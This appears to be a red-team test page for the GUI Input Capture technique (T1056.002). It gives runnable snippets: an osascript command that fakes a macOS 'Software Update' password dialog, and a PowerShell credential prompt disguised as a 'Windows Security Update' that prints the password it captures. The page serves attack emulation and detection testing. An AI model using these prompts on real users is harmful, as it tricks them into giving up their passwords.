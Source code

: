 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1056.002 - GUI Input Capture

### Attacks
* AppleScript - Prompt User for Password
	* Overview
Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS

```bash
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```

<br/>
<br/>

### Attacks
* PowerShell - Prompt User for Password
	* Overview
Prompt User for Password (Local Phishing) as seen in Stitch RAT. Upon execution, a window will appear for the user to enter their credentials.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

```powershell
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```

<br/>
